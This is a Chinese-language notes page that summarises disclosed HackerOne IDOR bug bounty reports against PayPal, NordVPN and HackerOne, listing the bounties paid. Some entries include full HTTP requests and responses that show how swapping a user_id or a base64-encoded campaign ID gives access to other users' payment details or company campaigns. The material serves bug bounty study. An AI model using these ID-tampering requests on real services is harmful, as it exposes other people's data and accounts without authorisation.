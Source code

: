 ## [IDOR to add secondary users in www.paypal.com/businessmanage/users/api/v1/users](https://hackerone.com/reports/415081)
#idor 
1. PayPal企业帐户允许帐户所有者创建多个二级用户，并为其员工分配特定权限。
2. 使企业帐户所有者可以从其他帐户分配次要用户
3. 新的次要用户将被授予对登录的访问，从而允许对该单个用户登录的功能的未授权访问.
4. 10500$💵

## [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
#idor 
1. 请求包
```
POST /api/v1/orders HTTP/1.1 
Host: join.nordvpn.com 
Accept: application/json 
Accept-Language: en-US,en;q=0.5 
Content-Type: application/json 
Content-Length: 179 
DNT: 1 
Connection: close

{  
    "payment":{  
        "provider_method_account":"6xdxdd",  
        "parameters":{  
  
        }  
    },  
    "action":"order",  
    "plan_id":653,  
    "user_id":20027039,  
    "tax_country_code":"TW",  
    "payment_retry":0,  
    "is_installment":false  
}
```
2. 响应体
```
{  
    "id":42615458,  
    "user_id":20027039,  
    "confirmation":{  
        "id":23093398,  
        "created_at":"2019-12-04 17:01:35",  
        "updated_at":"2019-12-04 17:01:35",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php","parameters":{"cmd":"_pay","reset":1,"email":"█████","merchant":"e64a9629f9a68cdeab5d0edd21b068d3","currency":"USD","amountf":125.64,"item_name":"VPN order","invoice":"49476958","success_url":"https:\/\/join.nordvpn.com\/payments\/callback\/264cae0b89e44a7bd263431b68d1122d","cancel_url":"https:\/\/join.nordvpn.com\/order\/error\/?error_alert=payment&eu=1","want_shipping":0}}"  
    }  
}
```
3. 更改请求包userid ，得到的响应体,泄露铭感数据
```
{  
    "id":42616142,  
    "user_id":89495247,  
    "confirmation":{  
        "id":23093800,  
        "created_at":"2019-12-04 17:16:48",  
        "updated_at":"2019-12-04 17:16:48",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php","parameters":{"cmd":"_pay","reset":1,"email":"hackerhacker@test.pl","merchant":"e64a9629f9a68cdeab5d0edd21b068d3","currency":"USD","amountf":125.64,"item_name":"VPN order","invoice":"49478089","success_url":"https:\/\/join.nordvpn.com\/payments\/callback\/4513bd083a97e1b5c23c69096d89ac80","cancel_url":"https:\/\/join.nordvpn.com\/order\/error\/?error_alert=payment&eu=0","want_shipping":0}}"  
    }  
}
```
4. 1000$💵

## [Insecure Direct Object Reference (IDOR) - Delete Campaigns](https://hackerone.com/reports/1969141)
1. 请求包,关注点campaign_id
```
POST /graphql HTTP/2
Host: hackerone.com
Cookie: yourcookie
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/organizations/opensea_demo/campaigns/242/edit
Content-Type: application/json
X-Csrf-Token: ███
X-Product-Area: campaigns
X-Product-Feature: edit
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 9027318766950450042
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 87799383677632658
Content-Length: 851
Origin: https://hackerone.com
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{  
    "operationName":"UpdateCampaign",  
    "variables":{  
        "product_area":"campaigns",  
        "product_feature":"edit",  
        "input":{  
            "campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==",  
            "team_id":"Z2lkOi8vaGFja2Vyb25lL0VuZ2FnZW1lbnRzOjpCdWdCb3VudHlQcm9ncmFtLzU3MzI4",  
            "bounty_table_row_id":"Z2lkOi8vaGFja2Vyb25lL0JvdW50eVRhYmxlUm93LzEwODM2",  
            "start_date":"2023-05-05T09:00:00Z",  
            "end_date":"2023-05-08T05:00:00Z",  
            "critical":3,  
            "high":2,  
            "medium":1.5,  
            "low":1.5,  
            "structured_scope_ids":[  
  
            ],  
            "researchers_information":"ccccccccccccccc"  
        }  
    },  
    "query":"mutation UpdateCampaign($input: UpdateCampaignInput!) {   updateCampaign(input: $input) {     was_successful     errors {       edges {         node {           id           type           field           message           __typename         }         __typename       }       __typename     }     __typename   } } "  
}

```
2. base64解码campaign_id ，得到**gid://hackerone/Campaign/244**
3. 更改数字 ，并编码放回包中 ，可更改删除其他公司项目
5. 50$💵

## IDOR 功能点
#idor 
1. [更改私人视频的密码](https://hackerone.com/reports/681473)1,500$💵
2. 编辑其他视频数据，如标题和描述
3. 通过成功利用IDOR发布私人视频
4. [从图库中删除照片和相册](https://hackerone.com/reports/380410)1,500$💵

## [# PayPal IDOR via billing Agreement Token (closed Informative, payment fraud)](https://medium.com/@h4x0r_dz/paypal-idor-via-billing-agreement-token-closed-informative-payment-fraud-3245202fab38)
